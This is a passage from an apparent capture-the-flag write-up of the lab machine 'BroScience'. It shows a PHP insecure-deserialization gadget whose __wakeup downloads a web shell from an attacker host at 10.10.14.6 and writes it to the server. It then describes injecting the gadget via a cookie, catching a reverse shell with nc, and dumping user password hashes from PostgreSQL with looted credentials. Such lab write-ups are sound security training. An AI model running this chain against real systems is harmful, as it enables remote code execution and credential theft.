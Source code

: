 [serializer.php](#serializer.php)
```php
// serializer.php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.6:8011/foothold.php";
    public $imgPath = "./foothold.php";

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

echo base64_encode(serialize(new AvatarInterface));
?>

```

Now generate the serialized object using `php serializer.php | tr -d '='` and insert it into the cookie `user-prefs` as shown in broscience03. With a extra three horizontally spilted terminal, start a python server on terminal one, an nc listener on terminal two, and on terminal three curl the uploaded php reverse shell script. Refresh the browser and execute the curl command. See brosciene04.

![Poison Cookie](/images/broscience/broscience03.png "Poison Cookie")

![Initial Foothold](/images/broscience/broscience04.png "Initial Foothold")

```shell
# upgrade to a full tty
python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=xterm-256color; stty rows 38 columns 116; reset;  # hit enter

# recall we looted a database credentials so lets use it.
ss -tpln                      # list open tcp ports
#--snip--#
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
LISTEN 0      244        127.0.0.1:5432      0.0.0.0:*    

cd ~   # change directory to current user's home
# connect and explore the database
psql -h 127.0.0.1 -p 5432 -U dbuser -d broscience -W   # on prompt submit password: RangeOfMotion%777
\dt                           # list tables
select * from users;          # explore the users table
select username,password from users;      # select specific columns
#--snip--#
| username    |             password             
|-------------|----------------------------------
```